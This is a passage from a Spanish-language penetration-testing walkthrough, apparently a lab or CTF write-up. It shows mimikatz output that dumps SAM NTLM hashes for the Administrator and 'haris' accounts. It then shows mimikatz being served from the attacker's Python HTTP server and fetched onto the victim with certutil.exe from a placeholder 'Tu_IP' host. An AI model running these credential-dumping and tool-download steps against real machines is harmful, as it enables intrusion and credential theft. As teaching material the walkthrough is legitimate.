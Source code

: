 ```batch
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
...
```

También obtenemos los hashes del **SAM**:
```batch
mimikatz # lsadump::sam
Domain : HARIS-PC
SysKey : a749692f1dc76b46d7141ef778aa6bef
Local SID : S-1-5-21-319597671-3711062392-2889596693

SAMKey : a226d4d47dab3eb7a306c8b85ec359cb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: cdf51b162460b7d5bc898f493751a0cc

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : haris
  Hash NTLM: 8002bc89de91f6b52d518bde69202dc6
```

<h2 id="mimik3">Cargando Mimikatz desde Nuestra Máquina</h2>

Por último, vamos a cargar **mimikatz** desde nuestra máquina, utilizando **certutil.exe**

Primero, vamos a abrir un servidor en **Python**:
```bash
python3 -m http.server 80
```

Ahora con **certutil.exe**, descargamos **mimikatz** en la máquina víctima:
```batch
C:\>certutil.exe -f -urlcache -split http://Tu_IP/mimikatz.exe
certutil.exe -f -urlcache -split http://Tu_IP/mimikatz.exe
****  Online  ****
  000000  ...
  14ae00
CertUtil: -URLCache command completed successfully.
```

Revisamos que se haya descargado correctamente:
```batch
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\

12/03/2024  05:15            73,802 eternal-blue.exe
12/03/2024  06:04         1,355,264 mimikatz.exe
14/07/2009  03:20    <DIR>          PerfLogs
...
```
